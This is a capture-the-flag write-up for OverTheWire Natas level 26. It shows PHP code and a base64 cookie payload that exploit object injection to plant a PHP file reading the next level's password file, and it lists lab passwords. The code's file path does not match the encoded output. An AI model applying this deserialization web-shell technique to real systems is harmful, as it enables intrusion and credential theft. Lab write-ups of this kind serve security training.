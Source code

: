 ```yaml
---
title: Wargames - Natas 26
published: true 
tags: natas
---
```


## [Level 26](https://overthewire.org/wargames/natas/natas26.html)

Username: natas26
password: oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
Lab URL: http://natas26.natas.labs.overthewire.org/

There is an classic ![PHP object injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection) vulnerability. In ![this](https://sandbox.onlinephpfunctions.com/) site I have prepare php code to steal password, code:
```
<?php

class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;
  
    function __construct(){
        $this->initMsg="#--session started--#\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile = "/var/www/natas/natas26/img/file.php";
    }                       
}
$o = new Logger();
print base64_encode(serialize($o));
```

output: 
```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozOToiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvcGFzc3dvcmQucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6MjI6IiMtLXNlc3Npb24gc3RhcnRlZC0tIwoiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo2MzoiPD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4KIjt9
```

then output of that code pass as drawing cookie value, modified request:

![request](assets/natas/26/req.png)


natas26 password: 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
